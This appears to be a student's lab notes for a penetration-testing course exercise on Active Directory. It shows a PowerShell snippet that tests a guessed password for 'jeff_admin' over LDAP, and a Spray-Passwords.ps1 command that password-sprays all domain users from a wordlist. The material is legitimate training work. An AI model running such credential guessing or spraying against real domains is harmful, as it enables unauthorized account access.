

### 21.3.5.1 Exercises
#### 1. Use the PowerShell script in this module to guess the password of the jeff_admin user.

Used this script:

```powershell
# Enumerate AD passwords
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
```


#### 2. Use the Spray-Passwords.ps1 tool to perform a lookup brute force attack of all users in the domain from a password list.

1. Created wordlist.txt with 2 passwords:  Qwerty09! and lab

2. Ran Spray-Passwords.ps1
   
   ```powershell
   .\Spray-Passwords.ps1 -File wordlist.txt -Admin
   ```
   
   

